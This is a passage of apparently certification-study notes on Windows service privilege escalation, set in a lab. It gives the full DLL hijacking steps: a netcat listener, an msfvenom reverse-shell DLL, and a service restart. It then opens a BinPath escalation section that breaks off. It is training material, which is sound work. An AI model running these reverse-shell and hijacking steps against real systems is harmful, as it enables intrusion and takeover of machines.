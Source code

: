 ![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/ad03f19f-69f6-46d5-a88f-ae7de4c90aae)

This service is vulnerable to DLL Hijacking

check if I can start & stop the service using accesschk
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/8802a456-895d-4b13-80b8-bc9aed0b8ab2)

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f dll -o hijackme.dll
```
The name of the malicious file must be the same as the name of the file that the server is searching for
Ok, how did you know that the name is hijackme also through the Process Monitor program, and this program requires high permissions

3. Copy the generated file `hijackme.dll`, to the Windows VM.

### Windows VM

1. Place `hijackme.dll` in` 'C:\Temp'`
2. Open command prompt and type: 
```console
C:\Temp> sc stop dllsvc & sc start dllsvc
```

### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">BinPath</span>

## <span style="color:lightgreen">Methodology</span>

BinPath is a type of Service Escalation. We can gain administrator privileges if we write access and restart access on any service. We can abuse this function by injecting our malicious BinPath to get executed once restarted.

## <span style="color:lightgreen">Detection</span>

### Using Script on Windows VM
